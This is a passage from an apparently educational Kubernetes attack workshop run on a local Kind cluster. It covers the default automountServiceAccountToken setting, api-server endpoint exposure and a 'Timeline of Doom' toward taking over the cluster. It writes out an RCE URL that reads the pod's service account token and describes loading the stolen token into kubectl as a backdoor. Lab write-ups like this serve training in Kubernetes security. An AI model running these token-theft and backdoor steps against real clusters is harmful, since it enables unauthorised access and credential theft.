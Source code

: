 ![[KS-2-24-9.png]]

This command succeeds, and notice the section:

```yaml
"subsets": [
  {
    "addresses" : [
       {
         "ip": "172.19.0.3"
       }
    ],"
```

4. In a real environment, that `ip` would give us the external address for the Kubernetes API server. Because we are running in Kind, it won't be this IP address, it will just be exposed on localhost with the same port. This is a vulnerability, and has been created by a too permissive policy for the service token.

#### New info:

- The ServiceAccount and Pod configurations in this application's Namespace is using the default `automountServiceAccountToken` setting of `true`

- Using a found ServiceAccount token, we were able to connect to the cluster's api-server

- The api-server returned Endpoint information exposing its external IP _(although our workshop Kind cluster obscures this in practice)_

![[KS-2-24-5.png]]

Lets see the timeline again 

#### Timeline of Doom

Updated progress toward total ownership of the target cluster.

![[KS-2-24-11.png]]

---

## Part 3: Cluster Exploration and creation of Backdoor 

1. We want to be able to use `kubectl` to directly access the cluster instead of having to use the clunky RCE URL. To do this, we will copy the contents of the token from [http://localhost/webadmin?cmd=cat%20/var/run/secrets/kubernetes.io/serviceaccount/token](http://localhost/webadmin?cmd=cat%20/var/run/secrets/kubernetes.io/serviceaccount/token) into a kubectl config file. 

2.  Once configuring the kube config file , now we will have direct access to the kubernetes cluster , so basically we are creating a backdoor in the cluster 

3. With our kubectl context now set, let's try to access the cluster by running `kubectl get pods`:

```
$ kubectl get pods
Error from server (Forbidden): pods is forbidden: User "system:serviceaccount:dev:webadmin" cannot list resource "pods" in API group "" in the namespace "default"
```
